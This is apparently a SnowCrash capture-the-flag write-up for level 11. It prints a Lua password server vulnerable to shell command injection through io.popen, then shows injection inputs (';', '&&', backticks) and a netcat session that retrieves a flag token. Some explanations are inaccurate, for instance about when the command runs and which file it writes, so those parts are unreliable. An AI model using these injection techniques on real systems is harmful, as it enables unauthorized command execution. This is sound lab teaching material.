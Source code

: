 How to find:
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile

Content of the .lua File
The main file running on the server is level11.lua. Below is the content of this file:

#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end

The server is designed to accept password inputs, but it actually evaluates these inputs as shell commands. This is done using the io.popen() function in Lua, which allows executing commands and capturing their output.

prog = io.popen("echo "..pass.." | sha1sum", "r")

Example Commands
1. Using getflag > /tmp/password:

    When trying to send this string as a password, the server validates it as a single input. Since it does not match the expected password hash, the server rejects the input and does not execute the command.
2. Using (; getflag > /tmp/flag11) (&& getflag > /tmp/flag11):

    By including a semicolon before the command, the server is allowed to execute multiple commands. The shell interprets that it should execute an empty command before the ; and then executes getflag, which allows redirecting the command's output to /tmp/password, effectively creating the flag.

3. Using `getflag` > /tmp/flag11:

    Similar to the previous examples, entering this command allows the server to execute getflag, which redirects the output to /tmp/flag11. This also allows access to the flag.

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: && getflag > /tmp/flag11
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Conclusion
    This discovery highlights the importance of input validation in systems that allow command execution. The lack of proper validation can lead to command injection vulnerabilities, enabling attackers to execute unauthorized commands on the system.